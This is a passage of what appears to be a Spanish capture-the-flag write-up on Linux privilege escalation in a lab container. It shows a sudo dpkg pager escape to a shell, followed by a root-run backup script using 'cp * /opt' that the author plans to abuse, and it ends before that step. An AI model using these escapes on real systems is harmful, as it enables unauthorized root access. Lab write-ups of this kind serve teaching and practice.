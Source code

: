 ### Explotacion de Privilegios

###### Usuario `[ chocolatitochingon ]`:
Listamos los permisos para este usuario:
```bash
User chocolatitochingon may run the following commands on 9cf682416d0b:
    (pinguinacio) NOPASSWD: /usr/bin/dpkg
```

Explotamos el privilegio de este usuario:
```bash
sudo -u pinguinacio /usr/bin/dpkg -l # Primero ejecutamos
!/bin/bash # Despues
```

###### Usuario `[ pinguinacio ]`:
Listando los archivos para este usuario tenemos un script **script.sh** que pertenece al usuario **root**, pero si listamos los permisos para este usaurio vemos que podemos ejecutarlo como **root**
```bash
sudo -l

User pinguinacio may run the following commands on 9cf682416d0b:
    (ALL) NOPASSWD: /bin/bash /home/pinguinacio/script.sh
```

Lo ejecutamos para ver como es que funciona:
```bash
sudo -u root /bin/bash /home/pinguinacio/script.sh
```

Vemos que realizar un **backup** de lo que exista en el derectorio **/opt**, Asi que tenemos de ver la manera de colar algo para poder ganar privilegios de **root**
```bash
Ingrese el número 1 para hacer un backup de tus archivos: 1
El número ingresado es igual a 1
Intentando copiar archivos al directorio /opt...
Copia completada.
```

Revisando el codigo del script
```bash
#!/bin/bash

read -rp "Ingrese el número 1 para hacer un backup de tus archivos: " numero

if [[ "$numero" -eq 1 ]]
then
    echo "El número ingresado es igual a 1"
    echo "Intentando copiar archivos al directorio /opt..."
    cp * /opt
    echo "Copia completada."
else
    echo "El número ingresado no es igual a 1. No se realizará ninguna operación."
fi
```
